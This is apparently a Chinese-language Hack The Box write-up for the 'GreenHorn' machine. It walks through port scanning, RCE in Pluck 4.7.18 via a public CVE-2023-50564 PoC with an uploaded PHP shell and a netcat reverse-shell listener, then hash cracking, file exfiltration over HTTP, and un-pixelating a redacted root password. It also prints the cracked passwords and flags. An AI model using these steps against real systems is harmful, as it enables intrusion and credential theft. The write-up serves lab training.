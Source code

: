 ###### tags: `Hack the box` `HTB` `Easy` `Linux`

# GreenHorn

```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.229.249 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.229.249:22
Open 10.129.229.249:80
Open 10.129.229.249:3000

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOp+cK9ugCW282Gw6Rqe+Yz+5fOGcZzYi8cmlGmFdFAjI1347tnkKumDGK1qJnJ1hj68bmzOONz/x1CMeZjnKMw=
|   256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZQbCc8u6r2CVboxEesTZTMmZnMuEidK9zNjkD2RGEv
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST
3000/tcp open  ppp?    syn-ack                                                 
```

先把`greenhorn.htb`加到`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.229.249  greenhorn.htb
```

前往`http://greenhorn.htb/`可以點下面的`admin`發現有`pluck 4.7.18`，google找到[CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)，要用他要先把`poc.py`裡面的`hostname`改成`greenhorn.htb`

```
login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"

rce_url="http://greenhorn.htb/data/modules/payload/shell.php"
```

在shell.php裡面修改ip跟port，把他包成zip之後用他，先開nc
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

┌──(kali㉿kali)-[~/htb/CVE-2023-50564_Pluck-v4.7.18_PoC]
└─$ python3 poc.py                                                                                                                          
ZIP file path: /home/kali/htb/CVE-2023-50564_Pluck-v4.7.18_PoC/shell.zip
Login account
ZIP file download.

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以進行RCE之後沒有權限，所以我們再來`http://greenhorn.htb:3000/`看看，註冊帳號之後可以進到`GreenAdmin/GreenHorn`的project，之後找到路徑`GreenHorn/data/settings/pass.php`有密碼
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

利用[crackstation](https://crackstation.net/)
```
Hash	                                                             Type	Result
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d7704
86743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163	sha512	iloveyou1
```

剛剛RCE那邊可以利用`iloveyou1`切成`junior`的帳號，在`/home/junior`的路徑可得到`user.txt`
```
www-data@greenhorn:/$ su junior
su junior
Password: iloveyou1

junior@greenhorn:~$ cat user.txt
cat user.txt
7df3a39b9c2c6abd32b198e883c444af
```

在同個路徑下有一個`'Using OpenVAS.pdf'`，開http server把它下載回來

```
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
 
junior@greenhorn:~$ python3 -m http.server 8000

┌──(kali㉿kali)-[~/htb]
└─$ wget 10.129.229.249:8000/'Using OpenVAS.pdf'
```

點開發現裡面有一坨像素的東東蓋住，先把pdf轉成png，用[Depix](https://github.com/spipm/Depix)

![GreenHorn_1.png](picture/GreenHorn_1.png)

```
┌──(kali㉿kali)-[~/htb/Depix]
└─$ pdfimages -png "Using OpenVAS.pdf" pass.png

┌──(kali㉿kali)-[~/htb/Depix]
└─$ python3 depix.py -p pass.png-000.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o out.png 
```

轉出來長這樣好醜

![GreenHorn_2.png](picture/GreenHorn_2.png)

```
sidefromsidetheothersidesidefromsidetheotherside
```

切成root權限到root得root.txt
```
junior@greenhorn:/var/www/html/pluck/data/modules/payload$ su root
su root
Password: sidefromsidetheothersidesidefromsidetheotherside

root@greenhorn:/var/www/html/pluck/data/modules/payload# cd /root
cd /root
root@greenhorn:~# cat root.txt
cat root.txt
60f9c77f5d63f978f03a7da7f64609f9
```
